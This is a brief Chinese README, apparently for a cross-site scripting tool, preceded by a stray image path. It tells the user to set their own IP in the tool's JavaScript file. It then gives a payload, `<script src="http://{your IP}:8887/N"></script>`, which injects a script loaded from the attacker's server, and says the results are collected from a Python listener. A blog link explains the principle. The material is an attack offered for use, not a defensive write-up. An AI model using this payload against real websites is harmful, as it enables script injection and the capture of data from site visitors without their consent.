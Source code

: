 # XSS工具用法
修改其中js文件的ip地址为你的实际ip地址。
同时你的payload为：
```js
<script src="http://{你的ip地址}:8887/N"></script>
```
然后直接访问你的python服务器即可获取XSS攻击结果。

原理可以在这看到：https://www.cnblogs.com/9man/p/18292753
